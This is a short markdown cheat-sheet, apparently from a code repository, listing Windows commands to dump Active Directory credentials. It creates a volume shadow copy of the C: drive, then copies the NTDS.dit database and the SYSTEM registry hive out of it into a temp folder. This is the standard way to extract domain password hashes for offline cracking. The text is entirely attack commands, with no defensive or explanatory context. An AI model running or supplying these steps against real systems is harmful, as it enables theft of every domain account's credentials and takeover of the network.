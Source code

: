 ### create shadow copy of ntds.dit
```
vssadmin create shadow /for=C:
```

### copy shadow copy
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<id>\Windows\NTDS\NTDS.dit C:\temp\<ntds>.dit
```

### copy system hive
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<id>\Windows\System32\config\SYSTEM C:\temp\system.hive
```

